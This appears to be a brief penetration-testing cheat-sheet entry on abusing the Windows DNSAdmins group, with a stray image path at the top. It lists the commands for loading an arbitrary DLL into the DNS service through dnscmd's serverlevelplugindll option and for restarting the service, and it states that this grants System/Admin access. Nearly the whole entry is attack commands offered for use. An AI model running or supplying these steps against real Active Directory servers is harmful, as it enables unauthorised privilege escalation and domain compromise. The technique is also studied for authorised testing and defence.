 # DNSAdmins group abuse

 - dnscmd.exe /config /serverlevelplugindll \\PATH\TO\.DLL (Need a dnsadmin user)

 - sc \\DNSServer stop dns

 - sc \\DNSServer start dns

### This gives us System/Admin access
